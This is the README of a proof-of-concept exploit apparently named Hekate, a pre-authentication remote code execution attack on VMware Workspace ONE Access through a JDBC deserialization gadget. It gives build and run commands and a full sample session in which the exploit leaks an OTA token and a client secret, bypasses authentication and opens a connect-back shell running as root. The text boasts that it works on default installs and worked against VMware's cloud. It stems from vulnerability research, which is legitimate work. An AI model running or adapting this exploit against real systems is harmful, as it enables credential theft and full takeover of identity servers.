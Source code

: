 ## Summary

An attacker can leverage the [licensecheck-1.1.5.jar](/postgres/exploit/libs/licensecheck-1.1.5.jar) library to trigger a deserialization in the `com.vmware.licensecheck.LicenseChecker` class when using the Postgres JDBC handler. It has an added advantage that an out-of-band attack isn't required. Please see the following exploit code for details.

## Build

1. Compile ysoserial-0.0.6-SNAPSHOT-all.jar and place it in the libs directory
2. Build with `mvn clean compile assembly:single`

## Notes

- No outbound network access required
- Works on default installation
- Pre-authenticated
- Achieves root access
- Worked against VMWare's cloud

For more information about the vulnerabilities (ab)used, please see the main repo [README](/README.md).

## Run

Run the exploit with `java -ea -cp "libs/*":"target/hekate-0.0.1-SNAPSHOT.jar" com.srcincite.exploit.Poc`

## Example

```
researcher@mars:~/eclipse-workspace/exploit$ java -ea -cp "libs/*":"target/hekate-0.0.1-SNAPSHOT.jar" com.srcincite.exploit.Poc
   __ __    __        __
  / // /__ / /_____ _/ /____
 / _  / -_)  '_/ _ `/ __/ -_)
/_//_/\__/_/\_\\_,_/\__/\__/

A VMWare Workspace ONE Access RCE Exploit
By Steven Seeley (mr_me) of Qihoo 360 Vulnerability Research Institute

Missing required options: t, c
usage: Poc
 -c,--connectback <arg>   The connectback ip or hostname and port
 -t,--target <arg>        The target ip

researcher@mars:~/eclipse-workspace/exploit$ java -ea -cp "libs/*":"target/hekate-0.0.1-SNAPSHOT.jar" com.srcincite.exploit.Poc -t 192.168.2.97 -c 192.168.2.234
   __ __    __        __
  / // /__ / /_____ _/ /____
 / _  / -_)  '_/ _ `/ __/ -_)
/_//_/\__/_/\_\\_,_/\__/\__/

A VMWare Workspace ONE Access RCE Exploit
By Steven Seeley (mr_me) of Qihoo 360 Vulnerability Research Institute

(+) targeting 192.168.2.97
(+) listening at port 1337
(+) leaked ota token: f5c8ae0b-7b86-3233-a8dd-ff6b08779feb:j2UL6TSQc45RHnb9Y7HqNNH3lVMT9ZU8
(+) leaked client secret: gKX0GX8fUWvlR6Vdsm3DOT7yE82CXTOq
(+) bypassed authentication!
(+) triggering deserialization attack...
(+) connection from 192.168.2.97
(+) pop thy shell!
bash: cannot set terminal process group (2099): Inappropriate ioctl for device
bash: no job control in this shell
id
uid=0(root) gid=0(root) groups=0(root),1000(vami),1004(sshaccess)
uname -a
Linux module5.localdomain 4.19.217-1.ph3 #1-photon SMP Thu Dec 2 02:29:27 UTC 2021 x86_64 GNU/Linux
^C
```
